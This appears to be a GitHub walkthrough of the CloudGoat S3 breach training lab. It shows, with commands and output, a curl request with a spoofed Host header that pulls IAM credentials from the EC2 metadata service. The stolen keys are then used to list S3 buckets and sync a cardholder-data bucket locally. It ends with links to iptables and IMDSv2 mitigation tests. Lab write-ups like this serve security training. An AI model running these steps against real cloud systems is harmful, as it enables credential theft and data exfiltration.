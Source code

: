 


## Walkthrough of the Rhino Labs S3 data breach scenario

<HR>
This walkthrouh includes steps for setup, commands in the cheatsheet which needed slight modification to work.
After going through the scenario as written, I wanted to see:
  
  * What happens if we prevent access to the metadata servie using iptables firewall?
    https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/test1_with_iptables.md

  * How the scenario would be impacted by implementation of the Instance Metadata Service Version 2 (IMDSV2) 
    announced at re:Invent in December, 2019
    https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/test2_with-IMDSv2.md
 

<HR>
  
## Reference: 

Cloud Goat S3 breach scenario (release notes)
https://rhinosecuritylabs.com/aws/capital-one-cloud_breach_s3-cloudgoat/

Scenario Details: 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

Scenario Cheat Sheet:
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/cheat_sheet.md

NOTE: Additional setup needed: ‘cloudgoat’ IAM user and profile, described in the CloudGoat 2 release notes 
https://rhinosecuritylabs.com/aws/introducing-cloudgoat-2/

![alt text](https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/images/image0.jpg)



<HR>
  
## Steps in scenario cheat-sheet:

1) curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254' 
``` 
% curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
cg-banking-WAF-Role-cgidatyedvvzzy
% 
```

2) curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

```
%~/Cloud_Goat_Test/Walkthrough# curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/cg-banking-WAF-Role-cgidatyedvvzzy -H 'Host:169.254.169.254'
{
  "Code" : "Success",
  "LastUpdated" : "2020-01-12T19:06:22Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "XXXXXXXXXXXXXXXXXXXXXX",
  "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
  "Token" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==",
  "Expiration" : "2020-01-13T01:42:16Z"
```

3) aws configure --profile erratic

```
% aws configure --profile erratic
AWS Access Key ID [****************4R4E]: XXXXXXXXXXXXXXXXXX
AWS Secret Access Key [****************plSQ]: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX          
Default region name [us-east-1]: us-east-1
Default output format [None]: 
%
```

4) aws_session_token = <session-token>

Note: the steps required are slightly different than described in the cheat-sheet for this scenario.

Exporting as an environment variable could work, the variable name would need to be capitalized. “export AWS_SESSION_TOKEN=QoJb3Jp...”  The order for processing IAM credentials is: 1) in your code, 2) environment variables, 3) user profile ~/.aws/credentials  4) Role  

The cheat-sheet for the Cloud Goat server side request forgery scenario “ec2_ssrf” shows how to configure the TOKEN in the user profile:  https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/cheat_sheet_solus.md


![alt text](https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/images/image1.jpg)

<HR>
  
After editing for our current test: 

```
% tail ~/.aws/credentials
...
[erratic]
aws_session_token=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXx/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==
aws_access_key_id = XXXXXXXXXXXXXXXXXXXXXXXXXXXX
aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXxxx
```

<HR>

5) Use new credentials to list S3 buckets?  Success!

```
% aws s3 ls --profile erratic
2020-01-12 14:07:01 cg-cardholder-data-bucket-cgidatyedvvzzy
%
```

<HR>
  
6)  Copy bucket contents

```
% aws s3 sync s3://cg-cardholder-data-bucket-cgidatyedvvzzy ./cardholder-data --profile erratic
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_primary.csv to cardholder-data/cardholder_data_primary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholders_corporate.csv to cardholder-data/cardholders_corporate.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_secondary.csv to cardholder-data/cardholder_data_secondary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/goat.png to cardholder-data/goat.png
```

<HR>
  
7) Reveiw local copy 

```
% ls ./cardholder-data/
cardholder_data_primary.csv  cardholder_data_secondary.csv  cardholders_corporate.csv  goat.png

% ls -ltr
total 456
-rw-r--r-- 1 root root 249500 Jan 12 14:07 goat.png
-rw-r--r-- 1 root root  92165 Jan 12 14:07 cardholders_corporate.csv
-rw-r--r-- 1 root root  59384 Jan 12 14:07 cardholder_data_secondary.csv
-rw-r--r-- 1 root root  58872 Jan 12 14:07 cardholder_data_primary.csv

% firefox ./goat.png
```

![alt text](https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/images/image2.jpg)


<HR> 
  
## Additional Tests: 
  
  
  * What happens if we prevent access to the metadata servie using iptables firewall?
    https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/test1_with_iptables.md

  * How the scenario would be impacted by implementation of the Instance Metadata Service Version 2 (IMDSV2) 
    announced at re:Invent in December, 2019
    https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/test2_with-IMDSv2.md
 




    


